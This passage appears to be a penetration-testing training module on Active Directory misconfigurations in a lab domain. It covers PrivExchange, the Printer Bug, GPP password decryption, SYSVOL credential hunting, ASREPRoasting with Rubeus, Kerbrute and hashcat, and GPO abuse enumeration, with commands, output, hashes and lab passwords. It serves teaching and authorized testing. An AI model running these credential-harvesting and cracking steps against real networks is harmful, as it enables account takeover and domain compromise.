





# Miscellaneous Misconfigurations
## Exchange Related Group Membership
A default installation of Microsoft Exchange within an AD environment (with no split-administration model) opens up many attack vectors, as Exchange is often granted considerable privileges within the domain (via users, groups, and ACLs). The group `Exchange Windows Permissions` is not listed as a protected group, but members are granted the ability to write a DACL to the domain object. This can be leveraged to give a user DCSync privileges. An attacker can add accounts to this group by leveraging a DACL misconfiguration (possible) or by leveraging a compromised account that is a member of the Account Operators group. This [GitHub repo](https://github.com/gdedrouas/Exchange-AD-Privesc) details a few techniques for leveraging Exchange for escalating privileges in an AD environment.

The Exchange group `Organization Management` is another extremely powerful group (effectively the "Domain Admins" of Exchange) and can access the mailboxes of all domain users. It is not uncommon for sysadmins to be members of this group. This group also has full control of the OU called `Microsoft Exchange Security Groups`, which contains the group `Exchange Windows Permissions`.

### Viewing Organization Management's Permissions



If we can compromise an Exchange server, this will often lead to Domain Admin privileges. Additionally, dumping credentials in memory from an Exchange server will produce 10s if not 100s of cleartext credentials or NTLM hashes. This is often due to users logging in to Outlook Web Access (OWA) and Exchange caching their credentials in memory after a successful login.

## PrivExchange
The `PrivExchange` attack results from a flaw in the Exchange Server `PushSubscription` feature, which allows any domain user with a mailbox to force the Exchange server to authenticate to any host provided by the client over HTTP.

The Exchange service runs as SYSTEM and is over-privileged by default. This flaw can be leveraged to relay to LDAP and dump the domain NTDS database. If we cannot relay to LDAP, this can be leveraged to relay and authenticate to other hosts within the domain. This attack will take you directly to Domain Admin with any authenticated domain user account.

## Printer Bug
The Printer Bug is a flaw in the MS-RPRN protocol (Print System Remote Protocol). This protocol defines the communication of print job processing and print system management between a client and a print server. To leverage this flaw, any domain user can connect to the spool's named pipe with the `RpcOpenPrinter` method and use the `RpcRemoteFindFirstPrinterChangeNotificationEx` method, and force the server to authenticate to any host provided by the client over SMB.

The spooler service runs as SYSTEM and is installed by default in Windows servers running Desktop Experience. This attack can be leveraged to relay to LDAP and grant your attacker account DCSync privileges to retrieve all password hashes from AD.

The attack can also be used to relay LDAP authentication and grant Resource-Based Constrained Delegation (RBCD) privileges for the victim to a computer account under our control, thus giving the attacker privileges to authenticate as any user on the victim's computer. This attack can be leveraged to compromise a Domain Controller in a partner domain/forest, provided you have administrative access to a Domain Controller in the first forest/domain already, and the trust allows TGT delegation, which is not by default anymore.

We can leverage the `Get-SpoolStatus` function from `SecurityAssessment.ps1` (available on the target system) as preserved in [this](https://github.com/itzvenom/Security-Assessment-PS) repository or [this](https://github.com/NotMedic/NetNTLMtoSilverTicket) tool to check for machines vulnerable to the [MS-PRN Printer Bug](https://blog.sygnia.co/demystifying-the-print-nightmare-vulnerability). This flaw can be used to compromise a host in another forest that has Unconstrained Delegation enabled, such as a domain controller. It can help us to attack across forest trusts once we have compromised one forest.

### Enumerating for MS-PRN Printer Bug

```pwsh
PS C:\htb> Import-Module .\SecurityAssessment.ps1
PS C:\htb> Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

ComputerName                        Status
------------                        ------
ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL   True
```

## MS14-068
This was a flaw in the Kerberos protocol, which could be leveraged along with standard domain user credentials to elevate privileges to Domain Admin. A Kerberos ticket contains information about a user, including the account name, ID, and group membership in the Privilege Attribute Certificate (PAC). The PAC is signed by the KDC using secret keys to validate that the PAC has not been tampered with after creation.

The vulnerability allowed a forged PAC to be accepted by the KDC as legitimate. This can be leveraged to create a fake PAC, presenting a user as a member of the Domain Administrators or other privileged group. It can be exploited with tools such as the [Python Kerberos Exploitation Kit (PyKEK)](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) or the Impacket toolkit. 

## Sniffing LDAP Credentials
Many applications and printers store LDAP credentials in their web admin console to connect to the domain. These consoles are often left with weak or default passwords. Sometimes, these credentials can be viewed in cleartext. Other times, the application has a test connection function that we can use to gather credentials by changing the LDAP IP address to that of our attack host and setting up a netcat listener on LDAP port 389. When the device attempts to test the LDAP connection, it will send the credentials to our machine, often in cleartext. Accounts used for LDAP connections are often privileged, but if not, this could serve as an initial foothold in the domain. Other times, a full LDAP server is required to pull off this attack, as detailed in this [post](https://grimhacker.com/2018/03/09/just-a-printer/).

## Enumerating DNS Records
We can use a tool such as [adidnsdump](https://github.com/dirkjanm/adidnsdump) to enumerate all DNS records in a domain using a valid domain user account. This is especially helpful if the naming convention for hosts returned to us in our enumeration using tools such as BloodHound is similar to `SRV01934.INLANEFREIGHT.LOCAL`. If all servers and workstations have a non-descriptive name, it makes it difficult for us to know what exactly to attack. If we can access DNS entries in AD, we can potentially discover interesting DNS records that point to this same server, such as `JENKINS.INLANEFREIGHT.LOCAL`, which we can use to better plan out our attacks.

The tool works because, by default, all users can list the child objects of a DNS zone in an AD environment. By default, querying DNS records using LDAP does not return all results. So by using the `adidnsdump` tool, we can resolve all records in the zone and potentially find something useful for our engagement. The background and more in-depth explanation of this tool and technique can be found in this post.

On the first run of the tool, we can see that some records are blank, namely `?,LOGISTICS,?`.

### Using adidnsdump

```sh
masterofblafu@htb[/htb]$ adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 

Password: 

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 27 records

```

### Viewing the Contents of the records.csv File

```sh
masterofblafu@htb[/htb]$ head records.csv 

type,name,value
?,LOGISTICS,?
AAAA,ForestDnsZones,dead:beef::7442:c49d:e1d7:2691
AAAA,ForestDnsZones,dead:beef::231
A,ForestDnsZones,10.129.202.29
A,ForestDnsZones,172.16.5.240
A,ForestDnsZones,172.16.5.5
AAAA,DomainDnsZones,dead:beef::7442:c49d:e1d7:2691
AAAA,DomainDnsZones,dead:beef::231
A,DomainDnsZones,10.129.202.29
```

If we run again with the `-r` flag the tool will attempt to resolve unknown records by performing an A query. Now we can see that an IP address of `172.16.5.240` showed up for LOGISTICS.

### Using the -r Option to Resolve Unknown Records

```sh
masterofblafu@htb[/htb]$ adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r

Password: 

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Querying zone for records
[+] Found 27 records
```

### Finding Hidden Records in the records.csv File

```sh
masterofblafu@htb[/htb]$ head records.csv 

type,name,value
A,LOGISTICS,172.16.5.240
AAAA,ForestDnsZones,dead:beef::7442:c49d:e1d7:2691
AAAA,ForestDnsZones,dead:beef::231
A,ForestDnsZones,10.129.202.29
A,ForestDnsZones,172.16.5.240
A,ForestDnsZones,172.16.5.5
AAAA,DomainDnsZones,dead:beef::7442:c49d:e1d7:2691
AAAA,DomainDnsZones,dead:beef::231
A,DomainDnsZones,10.129.202.29
```

## Other Misconfigurations
### Password in Description Field

```pwsh
PS C:\htb> Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}

samaccountname description
-------------- -----------
administrator  Built-in account for administering the computer/domain
guest          Built-in account for guest access to the computer/domain
krbtgt         Key Distribution Center Service Account
ldap.agent     *** DO NOT CHANGE ***  3/12/2012: Sunsh1ne4All!
```

## PASSWD_NOTREQD Field
If [passwd_notreqd](https://ldapwiki.com/wiki/Wiki.jsp?page=PASSWD_NOTREQD) is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all (if empty passwords are allowed in the domain).

### Checking for PASSWD_NOTREQD Setting using Get-DomainUser

```pwsh
PS C:\htb> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol

samaccountname                                                         useraccountcontrol
--------------                                                         ------------------
guest                ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
mlowe                                PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
ehamilton                            PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
$725000-9jb50uejje9f                       ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT
nagiosagent                                                PASSWD_NOTREQD, NORMAL_ACCOUNT
```

## Credentials in SMB Shares and SYSVOL Scripts
The SYSVOL share can be a treasure trove of data, especially in large organizations. We may find many different batch, VBScript, and PowerShell scripts within the scripts directory, which is readable by all authenticated users in the domain. It is worth digging around this directory to hunt for passwords stored in scripts.

### Discovering an Interesting Script

```pwsh
PS C:\htb> ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts

    Directory: \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts


Mode                LastWriteTime         Length Name                                                                 
----                -------------         ------ ----                                                                 
-a----       11/18/2021  10:44 AM            174 daily-runs.zip                                                       
-a----        2/28/2022   9:11 PM            203 disable-nbtns.ps1                                                    
-a----         3/7/2022   9:41 AM         144138 Logon Banner.htm                                                     
-a----         3/8/2022   2:56 PM            979 reset_local_admin_pass.vbs
```

### Finding a Password in the Script

```pwsh
PS C:\htb> cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs

On Error Resume Next
strComputer = "."
 
Set oShell = CreateObject("WScript.Shell") 
sUser = "Administrator"
sPwd = "!ILFREIGHT_L0cALADmin!"
 
Set Arg = WScript.Arguments
If  Arg.Count > 0 Then
sPwd = Arg(0) 'Pass the password as parameter to the script
End if
 
'Get the administrator name
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")

<SNIP>
```

## Group Policy Preferences (GPP) Passwords
When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to. These files can include those used to:

- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.

These files can contain an array of configuration data and defined passwords. The `cpassword` attribute value is AES-256 bit encrypted, but Microsoft [published the AES private key on MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN), which can be used to decrypt the password. Any domain user can read these files as they are stored on the SYSVOL share, and all authenticated users in a domain, by default, have read access to this domain controller share.

### Viewing Groups.xml



### Decrypting the Password with gpp-decrypt
If you retrieve the cpassword value more manually, the gpp-decrypt utility can be used to decrypt the password as follows:

```sh
masterofblafu@htb[/htb]$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE

Password1
```

### Locating & Retrieving GPP Passwords with CrackMapExec

```sh
masterofblafu@htb[/htb]$ crackmapexec smb -L | grep gpp

[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
```

### Using CrackMapExec's gpp_autologin Module
It is also possible to find passwords in files such as Registry.xml when autologon is configured via Group Policy. This may be set up for any number of reasons for a machine to automatically log in at boot. If this is set via Group Policy and not locally on the host, then anyone on the domain can retrieve credentials stored in the Registry.xml file created for this purpose. 

```sh
masterofblafu@htb[/htb]$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found SYSVOL share
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Searching for Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Found INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found credentials in INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!']
```

In the output above, we can see that we have retrieved the credentials for an account called `guarddesk`. This may have been set up so that shared workstations used by guards automatically log in at boot to accommodate multiple users throughout the day and night working different shifts. In this case, the credentials are likely a local admin, so it would be worth finding hosts where we can log in as an admin and hunt for additional data. 

## ASREPRoasting
It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled.

With pre-authentication, a user enters their password, which encrypts a time stamp. The Domain Controller will decrypt this to validate that the correct password was used. If successful, a TGT will be issued to the user for further authentication requests in the domain. If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller. This can be subjected to an offline password attack using a tool such as Hashcat or John the Ripper.

### Viewing an Account with the Do not Require Kerberos Preauthentication Option



ASREPRoasting is similar to Kerberoasting, but it involves attacking the AS-REP instead of the TGS-REP. An SPN is not required. This setting can be enumerated with PowerView or built-in tools such as the PowerShell AD module.

The attack itself can be performed with the Rubeus toolkit and other tools to obtain the ticket for the target account. If an attacker has GenericWrite or GenericAll permissions over an account, they can enable this attribute and obtain the AS-REP ticket for offline cracking to recover the account's password before disabling the attribute again. Like Kerberoasting, the success of this attack depends on the account having a relatively weak password.

### Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser

```pwsh
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

samaccountname     : mmorgan
userprincipalname  : mmorgan@inlanefreight.local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```

### Retrieving AS-REP in Proper Format using Rubeus
With this information in hand, the Rubeus tool can be leveraged to retrieve the AS-REP in the proper format for offline hash cracking. This attack does not require any domain user context and can be done by just knowing the SAM name for the user without Kerberos pre-auth.

```pwsh
PS C:\htb> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: AS-REP roasting

[*] Target User            : mmorgan
[*] Target Domain          : INLANEFREIGHT.LOCAL

[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountName=mmorgan))'
[*] SamAccountName         : mmorgan
[*] DistinguishedName      : CN=Matthew Morgan,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] Using domain controller: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL (172.16.5.5)
[*] Building AS-REQ (w/o preauth) for: 'INLANEFREIGHT.LOCAL\mmorgan'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:
     $krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:D18650F4F4E0537E0188A6897A478C55$0978822DEC13046712DB7DC03F6C4DE059A946485451AAE98BB93DFF8E3E64F3AA5614160F21A029C2B9437CB16E5E9DA4A2870FEC0596B09BADA989D1F8057262EA40840E8D0F20313B4E9A40FA5E4F987FF404313227A7BFFAE748E07201369D48ABB4727DFE1A9F09D50D7EE3AA5C13E4433E0F9217533EE0E74B02EB8907E13A208340728F794ED5103CB3E5C7915BF2F449AFDA41988FF48A356BF2BE680A25931A8746A99AD3E757BFE097B852F72CEAE1B74720C011CFF7EC94CBB6456982F14DA17213B3B27DFA1AD4C7B5C7120DB0D70763549E5144F1F5EE2AC71DDFC4DCA9D25D39737DC83B6BC60E0A0054FC0FD2B2B48B25C6CA
```

### Cracking the Hash Offline with Hashcat

```sh
masterofblafu@htb[/htb]$ hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 

hashcat (v6.1.1) starting...

<SNIP>

$krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:d18650f4f4e0537e0188a6897a478c55$0978822dec13046712db7dc03f6c4de059a946485451aae98bb93dff8e3e64f3aa5614160f21a029c2b9437cb16e5e9da4a2870fec0596b09bada989d1f8057262ea40840e8d0f20313b4e9a40fa5e4f987ff404313227a7bffae748e07201369d48abb4727dfe1a9f09d50d7ee3aa5c13e4433e0f9217533ee0e74b02eb8907e13a208340728f794ed5103cb3e5c7915bf2f449afda41988ff48a356bf2be680a25931a8746a99ad3e757bfe097b852f72ceae1b74720c011cff7ec94cbb6456982f14da17213b3b27dfa1ad4c7b5c7120db0d70763549e5144f1f5ee2ac71ddfc4dca9d25d39737dc83b6bc60e0a0054fc0fd2b2b48b25c6ca:Welcome!00
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:d18650f4f...25c6ca
Time.Started.....: Fri Apr  1 13:18:40 2022 (14 secs)
Time.Estimated...: Fri Apr  1 13:18:54 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   782.4 kH/s (4.95ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10506240/14344385 (73.24%)
Rejected.........: 0/10506240 (0.00%)
Restore.Point....: 10493952/14344385 (73.16%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: WellHelloNow -> W14233LTKM

Started: Fri Apr  1 13:18:37 2022
Stopped: Fri Apr  1 13:18:55 2022
```

### Retrieving the AS-REP Using Kerbrute
When performing user enumeration with `Kerbrute`, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication.

```sh
masterofblafu@htb[/htb]$ kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 04/01/22 - Ronnie Flathers @ropnop

2022/04/01 13:14:17 >  Using KDC(s):
2022/04/01 13:14:17 >   172.16.5.5:88

2022/04/01 13:14:17 >  [+] VALID USERNAME:   sbrown@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:   jjones@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:   tjohnson@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:   jwilson@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:   bdavis@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:   njohnson@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:   asanchez@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:   dlewis@inlanefreight.local
2022/04/01 13:14:17 >  [+] VALID USERNAME:   ccruz@inlanefreight.local
2022/04/01 13:14:17 >  [+] mmorgan has no pre auth required. Dumping hash to crack offline:
$krb5asrep$23$mmorgan@INLANEFREIGHT.LOCAL:400d306dda575be3d429aad39ec68a33$8698ee566cde591a7ddd1782db6f7ed8531e266befed4856b9fcbbdda83a0c9c5ae4217b9a43d322ef35a6a22ab4cbc86e55a1fa122a9f5cb22596084d6198454f1df2662cb00f513d8dc3b8e462b51e8431435b92c87d200da7065157a6b24ec5bc0090e7cf778ae036c6781cc7b94492e031a9c076067afc434aa98e831e6b3bff26f52498279a833b04170b7a4e7583a71299965c48a918e5d72b5c4e9b2ccb9cf7d793ef322047127f01fd32bf6e3bb5053ce9a4bf82c53716b1cee8f2855ed69c3b92098b255cc1c5cad5cd1a09303d83e60e3a03abee0a1bb5152192f3134de1c0b73246b00f8ef06c792626fd2be6ca7af52ac4453e6a

<SNIP>
```

### Hunting for Users with Kerberos Pre-auth Not Required
With a list of valid users, we can use Get-NPUsers.py from the Impacket toolkit to hunt for all users with Kerberos pre-authentication not required. The tool will retrieve the AS-REP in Hashcat format for offline cracking for any found. We can also feed a wordlist such as jsmith.txt into the tool, it will throw errors for users that do not exist, but if it finds any valid ones without Kerberos pre-authentication, then it can be a nice way to obtain a foothold or further our access, depending on where we are in the course of our assessment. 

```sh
masterofblafu@htb[/htb]$ GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[-] User sbrown@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jjones@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tjohnson@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jwilson@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bdavis@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User njohnson@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User asanchez@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User dlewis@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ccruz@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$mmorgan@inlanefreight.local@INLANEFREIGHT.LOCAL:47e0d517f2a5815da8345dd9247a0e3d$b62d45bc3c0f4c306402a205ebdbbc623d77ad016e657337630c70f651451400329545fb634c9d329ed024ef145bdc2afd4af498b2f0092766effe6ae12b3c3beac28e6ded0b542e85d3fe52467945d98a722cb52e2b37325a53829ecf127d10ee98f8a583d7912e6ae3c702b946b65153bac16c97b7f8f2d4c2811b7feba92d8bd99cdeacc8114289573ef225f7c2913647db68aafc43a1c98aa032c123b2c9db06d49229c9de94b4b476733a5f3dc5cc1bd7a9a34c18948edf8c9c124c52a36b71d2b1ed40e081abbfee564da3a0ebc734781fdae75d3882f3d1d68afdb2ccb135028d70d1aa3c0883165b3321e7a1c5c8d7c215f12da8bba9
[-] User rramirez@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jwallace@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jsantiago@inlanefreight.local doesn't have UF_DONT_REQUIRE_PREAUTH set

<SNIP>
```

## Group Policy Object (GPO) Abuse
GPO misconfigurations can be abused to perform the following attacks:

- Adding additional rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
- Adding a local admin user to one or more hosts
- Creating an immediate scheduled task to perform any number of actions

### Enumerating GPO Names with PowerView

```pwsh
PS C:\htb> Get-DomainGPO |select displayname

displayname
-----------
Default Domain Policy
Default Domain Controllers Policy
Deny Control Panel Access
Disallow LM Hash
Deny CMD Access
Disable Forced Restarts
Block Removable Media
Disable Guest Account
Service Accounts Password Policy
Logon Banner
Disconnect Idle RDP
Disable NetBIOS
AutoLogon
GuardAutoLogon
Certificate Services
```

This can be helpful for us to begin to see what types of security measures are in place (such as denying cmd.exe access and a separate password policy for service accounts). We can see that autologon is in use which may mean there is a readable password in a GPO, and see that Active Directory Certificate Services (AD CS) is present in the domain. 

### Enumerating GPO Names with a Built-In Cmdlet
If Group Policy Management Tools are installed on the host we are working from, we can use various built-in [GroupPolicy cmdlets](https://docs.microsoft.com/en-us/powershell/module/grouppolicy/?view=windowsserver2022-ps) such as `Get-GPO` to perform the same enumeration.

```pwsh
PS C:\htb> Get-GPO -All | Select DisplayName

DisplayName
-----------
Certificate Services
Default Domain Policy
Disable NetBIOS
Disable Guest Account
AutoLogon
Default Domain Controllers Policy
Disconnect Idle RDP
Disallow LM Hash
Deny CMD Access
Block Removable Media
GuardAutoLogon
Service Accounts Password Policy
Logon Banner
Disable Forced Restarts
Deny Control Panel Access
```

### Enumerating Domain User GPO Rights
Next, we can check if a user we can control has any rights over a GPO. Specific users or groups may be granted rights to administer one or more GPOs. A good first check is to see if the entire Domain Users group has any rights over one or more GPOs.

```pwsh
PS C:\htb> $sid=Convert-NameToSid "Domain Users"
PS C:\htb> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}

